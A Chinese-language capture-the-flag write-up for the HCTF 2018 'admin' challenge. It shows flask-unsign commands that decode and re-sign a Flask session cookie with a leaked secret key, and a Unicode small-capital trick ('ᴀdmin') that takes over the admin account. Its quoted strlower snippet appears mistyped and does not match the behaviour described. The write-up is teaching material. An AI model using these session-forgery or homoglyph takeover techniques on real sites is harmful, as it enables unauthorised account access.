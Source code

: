 # \[HCTF 2018]admin

## \[HCTF 2018]admin

## 考点

* flask session伪造
* Unicode欺骗

## wp

### 第一种做法

注册登录后，在change password处给了源码

![](<../../.gitbook/assets/image (1).png>)

打开可以看到是flask的源码，结合题目，可以判断要伪造admin。在config.py中找到`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

然后就可以使用flask-unsign了

```
flask-unsign --decode --cookie .eJxFkMFuwjAQRH-l2jOH2JALEhfkYgVpbYXaidYXREMgcWwqB VAhiH9vWlXtHHekNzvzgO2hr88NzC_9tZ7Att3D_AEv7zAHjJZpaVPihUeJXAmb4rDqXMwTNaiA0t50uYlkcEa-mpIJgcqicRJTMlVCZt05gwyFa5V85WhyjkPFtVAN-ow5UbTKuKgGGu_rgGLjnbQM_apDs_QU6Y5-GXDIUhSrTvFsOmbftQhB-cIrmTEa8k803QKeE6jO_WF7-ejq03-FEm8Uv-NHVDm-I3JGPEtVtAmaTaPFPmhxnCpTzbRARiUyly9-cG3cHes_EpXszf46p10cDdiNgglcz3X_MxuwBJ5fW9tqTg.YkqrwA.DOP8oMc0Qa4fnCrwx4twEYRYRvY
```

得到的内容为

```
{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}
```

在用`SECRET_KEY`重新加密

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}" --secret 'ckj123'
```

得到session，再用这个session访问index即可

```
.eJxFkF9rwjAUxb_KuM8-NNG-CL5IZqhwE-qSlpsXcbXapomDqkwrfvd1Y2yv58Dv_HnA9tDX5wbml_5aT2Db7mH-gJd3mANGy7S0KfHCo0SuhE1xWHUu5okaVEBpb7rcRDI4I19NyYRAZdE4iSmZKiGz7pxBhsK1Sr5yNDnHoeJaqAZ9xpwoWmVcVAON-jqg2HgnLUO_6tAsPUW6o18GHLIUxapTPJuO2XctQlC-8EpmjIb8E023gOcEqnN_2F4-uvr0P6HEG8Xv-BFVjnVEzohnqYo2QbNptNgHLY5TZaqZFsioRObyxQ-ujbtj_Ueikr3ZX-e0i6MBu31sTzCB67nuf34DlsDzC8rTatM.YkqtdA.cL66rcW3NKmN-aZXI_13u1zyH8g
```

### 第二种做法

使用Unicode欺骗。本题在获取参数时使用了自定义的strlower函数，nodeprep.prepare对应的库为[https://github.com/twisted/twisted](https://github.com/twisted/twisted)

```python
def strlower(username):
    pytusername = nodeprep.prepare(username)
    return username
```

nodeprep.prepare函数会把[Latin Letter Small Capital](https://unicode-table.com/en/1D00/)先转为大写再转为小写，即

```
ᴀ -> A -> a
```

那就可以先注册ᴀdmin，再修改密码，再以admin身份登录

## 小结

1. [一题三解之2018HCTF admin](https://www.anquanke.com/post/id/16408)
2. [从一道题深入mysql字符集与比对方法collation](https://skysec.top/2018/03/21/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E6%B7%B1%E5%85%A5mysql%E5%AD%97%E7%AC%A6%E9%9B%86%E4%B8%8E%E6%AF%94%E5%AF%B9%E6%96%B9%E6%B3%95collation/)
